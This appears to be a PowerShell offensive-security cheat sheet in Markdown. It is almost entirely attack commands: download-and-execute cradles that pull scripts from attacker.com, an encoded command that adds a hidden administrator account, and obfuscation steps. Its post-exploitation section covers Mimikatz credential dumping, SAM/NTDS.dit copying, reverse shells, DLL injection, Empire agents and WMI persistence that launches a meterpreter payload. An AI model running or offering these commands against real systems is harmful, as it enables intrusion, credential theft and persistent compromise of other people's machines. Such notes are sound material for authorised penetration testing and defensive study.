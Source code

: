 ## Prerequisite
* `-ExecutionPolicy bypass -Window hidden`
## Download and Execution
#### In-Memory
* `iex (New-Object Net.WebCLient).DownloadString('<remote_file>')` - downloads and executes the remote file
* `iex (New-Object Net.WebClient).DownloadData()`
* `iex (New-Object Net.WebClient).OpenRead()`
* `iex (New-Object Net.HttpWebRequest) - Certutil.exe -ping`
* __Net.WebRequest__
  * `$req=[System.Net.WebRequest]::Create("<http://attacker.com/game.ps1>")`
  * `$res=$req.GetResponse()`
  * `iex ([SYstem.IO.StreamReader]($res.GetResponseStream())).ReadToEnd()`
* __System.Xml.XmlDocument__
  * `$xmldoc = New-Object System.Xml.XmlDocument`
  * `$xmldoc.Load("<remote_xml_file>")`
  * `iex $xmldoc.command.a.execute` - download and executes malicious PowerShell located inside XML document
* __Msxml2.XMLHTTP__
  * `$downloader = New-Object  -ComObject Msxml2.XMLHTTP`
  * `$downloader.open("GET","http://attacker.com/game.ps1",$false)`
  * `$downloader.send()`
  * `iex $downloader.responseText`
* __WinHttp.WinHttpRequest.5.1__
  * same as __Msxml2.XMLHTTP__

#### On-Disk
* __DownloadFile__
  * `$local_file="<C:\programdata\payload.exe>"` 
  * `New-Object Net.WebClient).DownloadFile($payload,$local_file)`
  * `& $local_file`
* `BTSAdmin.exe`
* `iex (New-Object Net.HttpWebRequest) - Certutil.exe -urlcache`
* `Invoke-WebRequest -Uri <target> -OutFile <filename>` - download file from target

#### Tools
* https://github.com/danielbohannon/Invoke-CradleCrafter

## Obfuscation
#### Native PS
* __EncodedCommand__
  * `$command = \`net user admin1 "password!" /add; net localgroup administrators admin1 /add\``
  * `$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)`
  * `$encodedCommand = [Convert]::ToBase64String($bytes)`
  * `Write-Host $encodedCommand`
  * `cmd> powershell.exe -encodedcommand <result-from-Write-Host>`

#### Tools
* https://github.com/danielbohannon/Invoke-Obfuscation
  * `$env:PSModulePath` - get modules path; copy downlaoded modules to this location
  * `Import_module Invoke-Obfuscation`
  * `Invoke-Obfuscation`
    * `Set SCRIPTBLOCK iex (New-Object Net.WebCLient).DownloadString('<remote_file>')`
    * if applying multiple methods one after another, they pile up (and potentially go above cmd.exe character count limtiation). Use `RESET` to clear previous encodings"
   
 ## Information Gathering and Recon
 #### Tools
* __PowerSploit__
  * `Invoke-Portscan` - port scan and network mapping
  * `Get-HttpStatus` - enumerate files and directories
* __Posh-SecMod__ - https://github.com/darkoperator/Posh-SecMod
  * `Invoke-ARPScan` - arp scan
  * `Invoke-ReverseDNSLookup`
  * `Resolve-HostRecord`
  * `Resolve-DNSRecord`
  * `Get-Command -Module Posh-SecMod` - see full features ofthe tool
 
## PostExploitation
#### Tools
* __Nishang__ - run in-memory with `iex (New-Object Net.WebClient).DownloadString("")` - https://github.com/samratashok/nishang
  *  __Gather__ - https://github.com/samratashok/nishang#gather
     * `Copy-VSS` - copy SAM database, NTDS.dit and contents of SYSTEM reg hive
     * `Get-Information`
     * `Get-PassHints` - dump Password Hints used on the system
     * `Invoke-Mimikatz -DumpCreds` - cump clear-text credentials
  *  __Bruteforcing__ - https://github.com/samratashok/nishang/tree/master/Scan
     * `Invoke-BruteForce` -> various bruteforcing options. See `Get-Help Invoke-BruteForce`
  *  __Shells__ - https://github.com/samratashok/nishang/tree/master/Shells
     * `Invoke-PowerShellTcp` - reverse PowerShell shell
* __PowerSploit__ - run in-memory with `iex (New-Object Net.WebClient).DownloadString("")` - https://github.com/PowerShellMafia/PowerSploit
  * __PrivEsc__ - `Import-Module .\Privesc.psm1`
     * `Invoke-AllChecks`
  * __Code Execution__ - `Import-Module CodeExecution`
     * `Invoke-DLLInjection`
        - find a processes to inject DLL: `ps | ? {$_.ProcessesName -match "notepad"}`
        - Use PID from above in `Invoke-DLLInjection -ProcessID <PID> <DLL-location>`
* __PSGetSystem__ - https://github.com/decoder-it/psgetsystem
  * `Get-Process -IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List -Property Username,Name,Id` - identify SYSTEM processes 
* __Empire__ (implements Powershell without requiring powershell on the target machine)- https://github.com/EmpireProject/Empire
0. `listeners`
   * `help`
1. `uselistener` - Configure listener
   * `set CertPath <location>` -> result of running `Empire/setup/cert.sh`
   * `back`
   * `listeners` - show active listeners
   * `main` - back to main menu
3. `usestager` - Configure stager
   * `set listener <>`
4. `agents`
   * `interact <agent>`
       * `shell whoami`
       * `searchmodule <keyword>`
       * `usemodule privesc/powerup/allchecks` -> `execute`
       * `help`
* __PowerLurk__ (Persistence) - https://github.com/Sw4mpf0x/PowerLurk
1. Create meterpreter payload and download it onto target
2. `IEX (New-Object Net.WebClient).DownloadString('<http://attacker.com/PowerLurk.ps1>'); Register-MaliciousWmiEvent -EventName CalcExec -PermanentCommand "cmd.exe /c <C:\payload-locationmeterpreter-payload.exe>" -Trigger ProcessesStart -ProcessName calc.exe` - start meterpreter when calc.exe is started
3. 
#### Native PS
__Create Local Process__
* `$proc = Get-WmiObject -List Win32_process`
    * `$proc.Create("cmd.exe")`
* `Invoke-WmiMethod -Class Win32_processes -Name create -ArgumentList cmd.exe`

__Create Remote Process__
* `Invoke-WmiMethod -Class Win32_process -Name create -ArgumentList cmd.exe -ComputerName <IP> -Credential <username>` - doesn't give a shell
    * note the returneed _ProcessId_
* `Get-WmiObject -Class Win32_process -Filter {ProcessId = <id>} -ComputerName <IP> -Credential <username>` - returns info about the process
